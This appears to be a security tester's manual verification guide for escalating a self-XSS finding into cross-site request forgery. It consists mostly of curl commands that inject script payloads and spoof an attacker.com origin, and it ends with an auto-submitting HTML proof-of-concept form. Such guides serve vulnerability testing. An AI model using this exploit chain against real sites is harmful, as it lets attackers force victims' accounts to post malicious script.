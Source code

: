 # XSS + CSRF Escalation Manual Verification Guide

## What We Find
Scanner detected XSS in form inputs:
- Group creation, post creation, or user-generated content
- Self-XSS confirmed in input fields
- Potential dialog boxes or confirmation messages
- Form submission endpoints discovered

## What We Do

**Step 1: Confirm Self-XSS Location**
```bash
# Test XSS payload in target field
curl -X POST [CREATE_ENDPOINT] -d "group_name=<script>alert(1)</script>" -H "Cookie: [SESSION]"
# Identify exact reflection point: dialog, confirmation, or display page
```

**Step 2: Map XSS Reflection Points**
```bash
# Check where payload appears
curl [GROUP_LIST_PAGE] -H "Cookie: [SESSION]" | grep "alert(1)"
curl [DIALOG_ENDPOINT] -H "Cookie: [SESSION]" | grep "alert(1)"
# Document: encoded vs unencoded locations
```

**Step 3: Test CSRF Protection**
```bash
# Capture group creation request
curl -X POST [CREATE_ENDPOINT] \
  -d "group_name=TestGroup&description=Test" \
  -H "Cookie: [SESSION]" \
  --proxy 127.0.0.1:8080

# Test without CSRF token
curl -X POST [CREATE_ENDPOINT] \
  -d "group_name=TestGroup2&description=Test2" \
  -H "Referer: https://attacker.com"
```

**Step 4: Validate Cross-Origin Requests**
```bash
# Test from different origin
curl -X POST [CREATE_ENDPOINT] \
  -d "group_name=<script>alert('CSRF-XSS')</script>" \
  -H "Origin: https://attacker.com" \
  -H "Referer: https://attacker.com"
```

**Step 5: Build Exploitation Chain**
```html
<!-- PoC: Force victim to create group with XSS payload -->
<form id="maliciousForm" action="https://target.com/create-group" method="POST">
    <input type="hidden" name="group_name" value="<script>alert('Account Compromised')</script>">
    <input type="hidden" name="description" value="Malicious Group">
    <input type="hidden" name="privacy" value="public">
</form>
<script>
    document.getElementById('maliciousForm').submit();
</script>
```
